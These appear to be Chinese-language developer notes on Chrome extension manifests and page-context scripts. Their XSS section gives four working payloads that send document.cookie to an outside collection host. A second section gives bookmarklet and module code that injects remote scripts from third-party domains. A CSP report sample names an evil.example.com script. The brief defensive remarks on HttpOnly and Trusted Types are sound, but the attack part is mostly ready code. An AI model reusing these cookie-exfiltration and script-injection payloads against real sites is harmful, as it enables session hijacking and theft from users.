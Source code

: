 
# [参考文档](https://developer.chrome.com/docs/extensions/mv3/manifest/) 
# [use-a-content-script-to-access-the-page-context-variables-and-functions](https://stackoverflow.com/questions/9515704/use-a-content-script-to-access-the-page-context-variables-and-functions)

## Cross-Site Scripting (XSS) 一句话cookie就丢了
> 在Cookie中设置了"HttpOnly"属性，通过JS脚本将无法读取到Cookie信息，这样能有效的防止XSS攻击。
> Chrome 新增的可信类型（Trusted types） 

```javascript

fetch('https://test.proxy.xiaoshuogeng.com/gather-cookies?cookies='+encodeURIComponent(document.cookie));

(new Image(100, 200)).setAttribute('src','https://test.proxy.xiaoshuogeng.com/gather-cookies?cookies='+encodeURIComponent(document.cookie));

new Audio('https://test.proxy.xiaoshuogeng.com/gather-cookies?cookies='+encodeURIComponent(document.cookie))

const url = 'https://test.proxy.xiaoshuogeng.com/gather-cookies';
  const data = JSON.stringify({
    cookie: document.cookie
  });
  fetch(url, {
    method: 'POST',
    mode: 'cors',
    headers: {
      'Content-Type': 'application/json'
    },
    body: data
  })

  


```

```javascript



```



## javascript 注入
```javascript
//浏览器控制台执行代码,  检验移除CSP是否生效
javascript:(()=>{
    let script=document.createElement('script');
    script.setAttribute('src','https://frontend-inject.xieyaokun.com/main.js'),
    script.setAttribute('type','application/javascript'),
    script.setAttribute('charset','utf-8'),document.body.appendChild(script)
})();


//保存为书签使用
javascript:(()=>{ let script=document.createElement('script');script.setAttribute('src','https://frontend-inject.xieyaokun.com/main.js'), script.setAttribute('type','application/javascript'),script.setAttribute('charset','utf-8'),document.body.appendChild(script) })();


//ES6 模块形式
var script=document.createElement('script');
script.setAttribute('type','module'),
    script.setAttribute('charset','utf-8'),
    script.innerHTML=`
import app from  'https://cloud-soft.xieyaokun.com/js/index.js'
app(); 
  
`
script.onload=(obj)=>{
    console.log(obj)
    script.remove();
}
document.body.appendChild(script)


```

## CSP REPORT
```JSON

{
  "csp-report": {
    "document-uri": "http://example.org/page.html",
    "referrer": "http://evil.example.com/",
    "blocked-uri": "http://evil.example.com/evil.js",
    "violated-directive": "script-src 'self' https://apis.google.com",
    "original-policy": "script-src 'self' https://apis.google.com; report-uri http://example.org/my_amazing_csp_report_parser"
  }
}


```
